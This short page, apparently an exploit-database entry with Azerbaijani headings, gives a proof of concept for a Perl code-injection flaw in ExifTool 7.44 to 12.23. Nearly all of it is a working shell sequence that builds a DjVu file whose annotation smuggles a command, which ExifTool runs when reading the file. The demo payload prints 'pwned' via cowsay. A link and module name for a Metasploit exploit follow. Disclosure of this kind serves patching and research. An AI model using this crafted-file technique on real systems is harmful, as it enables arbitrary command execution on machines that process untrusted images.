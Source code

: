 <languages />

Təsirə məruz qalan versiya
--------------------------

ExifTool 7.44 to 12.23

POC
---

      $ printf 'P1 1 1 0' > moo.pbm
       $ cjb2 moo.pbm moo.djvu
       $ printf 'ANTa\0\0\0\40"(xmp(\\\n".qx(cowsay pwned>&2);#"' >> moo.djvu
       $ exiftool moo.djvu > /dev/null
        _______
       < pwned >
        -------
               \   ^__^
                \  (oo)_______
                   (__)\       )\/\
                       ||----w |
                       ||     ||

    --
    Jakub Wilk

Metasploit
----------

<https://github.com/rapid7/metasploit-framework/pull/15185>

    exploit/unix/fileformat/exiftool_djvu_ant_perl_injection